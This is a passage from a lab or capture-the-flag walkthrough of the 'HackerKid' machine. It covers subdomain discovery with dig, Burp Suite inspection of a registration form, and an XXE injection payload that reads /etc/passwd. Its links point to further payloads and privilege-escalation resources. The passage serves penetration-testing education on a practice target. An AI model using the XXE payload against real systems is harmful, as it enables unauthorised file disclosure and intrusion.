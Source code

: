     000000021:   200        116 L    310 W      3849 Ch     "21"                           

Let's go to ***http://10.0.0.58?page_no=21*** and see what we get.

![image](https://user-images.githubusercontent.com/76552238/200009482-5e7c78e7-558c-4d21-ad9a-8eeb938d0d22.png)

After adding the domain name to the /etc/hosts file we can try to find it's subdomains.

    root@kali ~/D/M/HackerKid# dig @10.0.0.58 hackers.blackhat.local                                
                                                                                                    
    ; <<>> DiG 9.18.4-2-Debian <<>> @10.0.0.58 hackers.blackhat.local
    ; (1 server found)
    ;; global options: +cmd
    ;; Got answer:
    ;; WARNING: .local is reserved for Multicast DNS
    ;; You are currently testing what happens when an mDNS query is leaked to DNS
    ;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 51267
    ;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4096
    ; COOKIE: 3952f6f3ad348d8401000000636530a14eff712cadb680a2 (good)
    ;; QUESTION SECTION:
    ;hackers.blackhat.local.                IN      A

    ;; AUTHORITY SECTION:
    blackhat.local.         3600    IN      SOA     blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600

    ;; Query time: 0 msec
    ;; SERVER: 10.0.0.58#53(10.0.0.58) (UDP)
    ;; WHEN: Fri Nov 04 11:32:48 EDT 2022
    ;; MSG SIZE  rcvd: 125

We found another subdomain ***"hackerkid.blackhat.local"***. Let's add it as well to the ***/etc/host***s file.

Going to ***"hackerkid.blackhat.local"***, we have a register page that takes some parameters.  

![image](https://user-images.githubusercontent.com/76552238/200186982-62eda4c0-0a9c-4a44-bd18-37f1a75ad0b4.png)

Let's open Burp Suite and see what happens we click the Register button.  

![image](https://user-images.githubusercontent.com/76552238/200187076-28f339da-1b31-45fa-949d-a1baa193459e.png)

After pressing the Register button, the server gets the data in ***XML*** format. Maybe we can perform an [***XXE injection***][1].

# 2. Exploitation

Let's check if we can view a file on the system.

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
    <root>
    <name></name>
    <tel></tel>
    <email>&xxe;</email>
    <password></password>
    </root>


[1]: "https://portswigger.net/web-security/xxe"
[2]: "https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/XXE%20PHP%20Wrapper.xml"
[3]: "https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS"
[4]: "https://www.youtube.com/watch?v=dQw4w9WgXcQ"
[5]: "https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc"